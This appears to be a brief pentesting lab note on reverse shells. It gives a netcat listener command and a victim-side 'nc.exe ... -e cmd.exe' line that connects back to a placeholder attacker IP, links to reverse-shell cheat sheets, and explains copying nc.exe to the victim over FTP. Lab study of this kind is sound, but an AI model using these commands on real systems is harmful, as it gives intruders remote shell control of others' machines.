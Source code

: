 #### Reverse shell
- attacker machine listen


##### lab
- nc -nvlp 1234 [ attacker kali machine ]
- nc.exe -nv attaker_ip -e cmd.exe [ in victim windows machine,use /bin/bash if target system is linux]

##### Resources
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- https://www.revshells.com/
  
#### Note 
- We need to transfer the nc.exe file from the kali machine to victim windows machine via ftp server
- we can find it /usr/share/windows-resources/binaries
